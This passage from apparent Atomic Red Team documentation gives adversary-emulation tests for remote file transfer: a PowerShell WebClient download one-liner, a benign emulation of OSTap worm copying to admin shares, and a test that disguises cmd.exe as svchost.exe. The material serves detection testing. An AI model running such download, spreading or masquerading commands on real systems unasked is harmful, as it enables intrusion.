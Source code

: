 
```powershell
(New-Object System.Net.WebClient).DownloadFile("#{remote_file}", "#{destination_path}")
```

#### Cleanup Commands:
```powershell
Remove-Item #{destination_path} -Force -ErrorAction Ignore
```





<br/>
<br/>

## Atomic Test #11 - OSTAP Worming Activity
OSTap copies itself in a specfic way to shares and secondary drives. This emulates the activity.

**Supported Platforms:** Windows


**auto_generated_guid:** 2ca61766-b456-4fcf-a35a-1233685e1cad





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| destination_path | Path to create remote file at. Default is local admin share. | string | &#92;&#92;localhost&#92;C$|


#### Attack Commands: Run with `command_prompt`!  Elevation Required (e.g. root or admin) 


```cmd
pushd #{destination_path}
echo var fileObject = WScript.createobject("Scripting.FileSystemObject");var newfile = fileObject.CreateTextFile("AtomicTestFileT1105.js", true);newfile.WriteLine("This is an atomic red team test file for T1105. It simulates how OSTap worms accross network shares and drives.");newfile.Close(); > AtomicTestT1105.js
CScript.exe AtomicTestT1105.js //E:JScript
del AtomicTestT1105.js /Q >nul 2>&1
del AtomicTestFileT1105.js /Q >nul 2>&1
popd
```






<br/>
<br/>

## Atomic Test #12 - svchost writing a file to a UNC path
svchost.exe writing a non-Microsoft Office file to a file with a UNC path.
Upon successful execution, this will rename cmd.exe as svchost.exe and move it to `c:\`, then execute svchost.exe with output to a txt file.
